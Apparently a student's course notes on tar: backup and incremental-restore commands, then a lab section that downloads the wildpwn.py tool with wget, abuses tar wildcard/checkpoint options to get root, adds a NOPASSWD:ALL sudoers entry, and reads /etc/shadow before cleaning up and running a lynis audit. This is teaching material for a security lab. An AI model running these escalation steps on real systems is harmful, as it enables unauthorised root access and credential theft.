 # Week 5.1

## Creating and Restoring Backups with tar

```console
cd ~/Documents/epscript/
ls -l
cd ..
sudo tar cvvWf 20190505epscript.tar epscript/ > 20190505epscript.txt
sudo tar tvvf 20190505epscript.tar | less
cd epscript/backup/
sudo tar tvvf 20190814epscript.tar | less
sudo mkdir patient_search
sudo tar xvvf 20190814epscript.tar -C patient_search/ epscript/patients/
ll patient_search/epscript/patients/
tar xvf 20190814epscript.tar 
grep -R "Mark,Lopez" epscript/
grep -R "Megan,Patel" epscript/
```
An important note when created backups. You cannot be in the the directory you want the backup of. we we cd .. out first.

## Restoring Data Incremental Backups

```console
cd ~/Documents/epscript
tar cvvWf epscript_back_sun.tar --listed-incremental=epscript_backup.snar --level=0 testenvir
tar tvvf epscript_back_sun.tar --incremental | less
rm -r testenvir/patient/
tar xvvf epscript_back_sun.tar -R -C ~/Documents/epscript/ testenvir/patient/
touch patient.0a.txt patient.0b.txt
tar cvvWf epscript_back_mon.tar --listed-incremental=epscript_backup.snar testenvir
tar tvvf epscript_back_mon.tar --incremental | less
```

## Exploiting the tar Command with the Checkpoint and Wildcard Options

```console
cd
sudo su jane
cd ~/Documents
cd ExploitTar
wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py
python wildpwn.py tar .
ls -lat
cd .cache/
ls -lat
./.cachefile
visudo
```
From the exploit we now have root priviledges. As Jane we are able to enter visudo without any priviledge escalations. Within visudo we give ourselves all permissions with jane ALL=(ALL) NOPASSWD:ALL
```console
su jane
sudo cat etc/shadow
sudo rm -rf ~/Documents/ExploitTar
sudo apt install lynis
sudo lynis audit system
sudo nano /var/log/lynis-report.dat
```
